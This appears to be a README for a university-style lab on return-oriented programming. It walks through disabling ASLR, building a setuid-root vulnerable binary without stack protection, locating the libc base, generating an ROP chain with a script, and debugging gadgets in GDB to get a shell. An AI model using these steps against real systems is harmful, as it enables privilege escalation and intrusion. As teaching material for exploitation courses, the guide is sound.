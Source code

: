 # How to Launch a Shell in a Vulnerable Program
## Setup
- Disable ASLR:
```
sudo sysctl -w kernel.randomize_va_space=0
```
- For our example vulnerable program, we'll use `vuln.c` from assignment 1:
```
gcc -o vuln -z execstack -fno-stack-protector vuln.c
sudo chown root vuln
sudo chmod 4755 vuln
```
- In this attack, we'll assume that libc is not statically linked to the executable
- Link zsh to sh:
```
sudo ln -sf /bin/zsh /bin/sh
```

## Find Base Address of libc
- Run `ldd vuln` to find this base address:
```
	linux-gate.so.1 =>  (0xb7fd9000)
	libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb7e09000)
	/lib/ld-linux.so.2 (0xb7fdb000)
```
- In this example, libc's base address is `0xb7e09000`

## How to Create an ROP Shellcode
- We'll create an ROP chain to launch a shell
	- `vuln` will execute the generated `shellcode` during a buffer overflow
```
python3 gen_shellcode.py --libc_offset <libc_offset>
```
- For example:
```
python3 gen_shellcode.py --libc_offset 0xb7e09000
```
- If the `--gadgets` argument is included, we will create a shellcode with gadgets stored in that file
- **Note**: We don't recommend using `--gadgets`, because the generated shellcode won't work 100% of the time. Some gadgets found by ROPHunter may be invalid, because the actual execution could interpret the bytes differently than the Capstone disassembler.

## How to Launch a Shell
- We use GDB to determine where in the stack to store parts of the shellcode; e.g. `"/bin/sh\0"`
- However, GDB's stack frame may not match normal execution
- We use `invoke.sh` to run `vuln` within the same environment (courtesy of https://stackoverflow.com/questions/17775186/buffer-overflow-works-in-gdb-but-not-without-it):
- Run `vuln` in normal execution:
```
./invoke.sh vuln
```

### How to Debug this ROP Chain
#### Using GDB
- Run `vuln` with GDB:
```
./invoke.sh -d vuln
```
- We mst clear the two environment variables created by GDB:
```
unset env LINES
unset env COLUMNS
```

- We can then debug this ROP chain by setting breakpoints:
```
b main	# libc only gets loaded after main(), so we have to stop at main() before setting the other breakpoints
run
b *<Gadget address>	# e.g. First gadget's address is 0x2c79c
continue
```

#### Finding Correct %esp
- For some parts of the shellcode, we need to store addresses to other places on the stack
- We calculate these addresses by using the address stored in `%esp` at the first gadget
	- With return-oriented programming, `%esp` acts as the instruction pointer
- We can find this address by using GDB and can pass this address to `gen_shellcode.py` with the argument `init_esp_addr`

#### Determining Valid Gadgets
- If GDB stops at the expected instruction, then we have found the correct gadget
- Unfortunately, finding the right gadgets for an ROP shell is still trial-and-error. Some gadgets may be invalid, because GDB may not interpret the gadgets in the same way as the Capstone disassembler.
